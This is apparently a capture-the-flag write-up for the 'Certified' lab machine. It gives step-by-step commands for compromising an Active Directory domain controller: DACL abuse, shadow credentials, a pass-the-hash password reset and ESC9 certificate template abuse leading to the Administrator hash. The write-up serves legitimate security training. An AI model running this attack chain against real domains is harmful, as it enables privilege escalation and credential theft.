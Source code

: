 ![Certified](https://github.com/user-attachments/assets/99133812-c761-4692-aa66-6ec4b0d09c37)

## Reconnaissance & port scanning
We receive initial user and password `judith.mader::judith09` which we will use in the machine enumeration.

Scanning the machine with `nmap`:
```
# Nmap 7.95 scan initiated Fri Mar 14 13:03:13 2025 as: /usr/lib/nmap/nmap --privileged --privileged -sV -sC --open -oA logs/initial_recon/initial 10.10.11.41
Nmap scan report for 10.10.11.41 (10.10.11.41)
Host is up (0.034s latency).
Not shown: 988 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-14 19:03:34Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
|_ssl-date: 2025-03-14T19:04:57+00:00; +7h00m10s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
|_ssl-date: 2025-03-14T19:04:56+00:00; +7h00m10s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
|_ssl-date: 2025-03-14T19:04:57+00:00; +7h00m10s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-03-14T19:04:56+00:00; +7h00m10s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h00m09s, deviation: 0s, median: 7h00m09s
| smb2-time: 
|   date: 2025-03-14T19:04:17
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Mar 14 13:04:47 2025 -- 1 IP address (1 host up) scanned in 93.86 seconds
```

As we can see, the box is an Active Directory instance (as it hosts fundamental AD services, such as Kerberos, LDAP etc.). Now we will proceed to the machine itself in order to enumerate the network.

### Active Directory enumeration
As we cannot access the machine directly via `evil-winerm`, we need to base on unix-based enumeration tools. In this case, we run bloodhound ingestor via `nxc`:
```bash
nxc ldap dc01.certified.htb -u judith.mader -p judith09 --bloodhound --collection All --dns-tcp --dns-server 10.10.11.41
```

After loading the results into Bloodhound, we can extract attack path that targets Certificate Authority account:

![01_bloodhound](https://github.com/user-attachments/assets/051d6297-c27b-460e-905b-b35e32a8fdbe)

## Lateral movement
### DACLs abuse
In order to perform gain access to `management_svc` account, we need to grant ownership over group `MANAGEMENT` to our current user, `judith.mader`. For this purpose, we can use `impacket`:
```bash
impacket-owneredit -action write -new-owner 'judith.mader' -target 'management' 'certified.htb'/'judith.mader':'judith09' -dc-ip 10.10.11.41
```

![02_owneredit](https://github.com/user-attachments/assets/17441c42-61fe-4246-b1b3-92d2db1b6d1b)

Now, we can give ourselves full permissions over the group:
```bash
impacket-dacledit -action 'write' -rights 'FullControl' -principal 'judith.mader' -target 'management' 'certified.htb'/'judith.mader':'judith09'
```

![03_dacledit](https://github.com/user-attachments/assets/f4eea632-00b0-496e-8399-2ac3367a9274)

We can verify the results of this action with the command:
```bash
net rpc group members "management" -U "certified.htb"/"judith.mader"%"judith09" -S "dc01.certified.htb"
```

![04_verifying_groups](https://github.com/user-attachments/assets/17252488-cbe9-4a81-a93c-362cd90fa634)

As we can see, `judith.mader` was successfully added to the `management` group.
### Shadow credentials attack
After the DACLs abuse, targeted kerberoasting was performed. Unfortunately, the cracking attempts did not succeed and in order to gain access over the `management_svc` account, we need to utilize different measures, such as shadow credentials attack.

For this purpose we can utilize `certipy-ad` or `pywhisker`, which will add KeyCredential to the `msDs-KeyCredentialLink` of user `management_svc`:
```bash
pywhisker -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add"
```

![05_pywhisker](https://github.com/user-attachments/assets/6190f50b-be70-4f84-88ff-038a7fe0648f)

The command results in `.pfx` certificate, which need to be exported:
```bash
certipy-ad cert -export -pfx ./9hZvgJce.pfx -password PASSWORD -out "unprotected.pfx"
```

![06_export](https://github.com/user-attachments/assets/8910b3f2-6e88-4ed5-921d-f12901f7d875)

With this certificate, we can perform the attack, resulting in dumping `management_svc` account's hash:
```bash
certipy-ad auth -pfx ./unprotected.pfx -dc-ip 10.10.11.41 -username management_svc -domain certified.htb
```

![07_shadow_creds_attack](https://github.com/user-attachments/assets/07b23148-8d9e-485d-ac1c-11ef7ecba58b)

Using this hash, we can finally authenticate to the machine and read user's flag:

![08_user](https://github.com/user-attachments/assets/a97f471e-8afb-4781-a865-d3603915bc13)

## Further lateral movement
### Force-changing password for `ca_operator`
As user `management_svc` has `GenericAll` permission over user `ca_operator`, we can leverage this to force-change `ca_operator` password.

We do not possess plain-text password for user `management_svc`, so we will perform the attack with usage of `pth-net` tool and mask substitution:
```bash
pth-net rpc password "ca_operator" "newP@ssword2022" -U "certified.htb"/"management_svc"%"ffffffffffffffffffffffffffffffff":"HASH" -S "dc01.certified.htb"
```

![09_force_change_pass](https://github.com/user-attachments/assets/21c935f9-d4d6-42c5-acb1-1efb225be7f0)

### Enumerating for certificate templates
Now we can enumerate existing certificate templates for search of vulnerable template:
```bash
certipy-ad find -u 'ca_operator' -p 'newP@ssword2022' -target dc01.certified.htb -dc-ip 10.10.11.41 -vulnerable -stdout
```
![10_vulnerable_template](https://github.com/user-attachments/assets/b7ae1c04-ebe6-40ff-a766-8eff6550f304)


As we can see, the domain contains dangerous template named `CertifiedAuthentication` vulnerable to ESC9 attack. This vulnerability allows requesting certificate on behalf of other user (i.e `Administrator`) as compromised user. The main requirement is we need some user, that has full rights over compromised user. 

In this case, we have all requirements fulfilled, as `management_svc` has full rights over `ca_operator` and the template does not have security extension.
### Abusing ADCS (ESC9)
For this attack, we will need `ca_operator`'s password hash, which can be generated with below command:
```bash
> echo -n 'newP@ssword2022' | iconv -t UTF-16LE | openssl dgst -md4

MD4(stdin)= fb54d1c05e301e024800c6ad99fe9b45

```

The attack starts with changing `ca_operator`'s userPrincipalName to `Administrator`, using permissions of `management_svc` user:
```bash
certipy-ad account update -username "management_svc@certified.htb" -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator
```

![11_changing_upn](https://github.com/user-attachments/assets/7b912db1-014a-4964-9108-1c6133149eaa)

Next, we can request vulnerable certificate as `ca_operator`, pretending to be the `Administrator`:
```bash
certipy-ad req -username "ca_operator@certified.htb" -hashes :FB54D1C05E301E024800C6AD99FE9B45 -ca certified-DC01-CA -target dc01.certified.htb -dc-ip 10.10.11.41 -template CertifiedAuthentication -ns 10.10.11.41 -dns 10.10.11.41
```

![12_request_cert](https://github.com/user-attachments/assets/5f00f601-ac70-4158-8dfc-fd0d9a452a9f)

We need to revert changes to the `ca_operator`'s upn:
```bash
certipy-ad account update -username "management_svc@certified.htb" -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator
```

![13_revert_changes](https://github.com/user-attachments/assets/520bd2b0-ef40-4423-8a3c-ad1a01d911d7)

Finally, we can recover's `Administrator` hash using the certificate:
```bash
certipy-ad auth -pfx 'administrator.pfx' -domain "certified.htb"
```

![14_recover_hash](https://github.com/user-attachments/assets/2ece2e7a-b6d4-4f70-840d-621e70a401c5)

And authenticate to the domain controller:

![15_auth](https://github.com/user-attachments/assets/554a7dac-2c06-4024-8c89-95073fb87265)
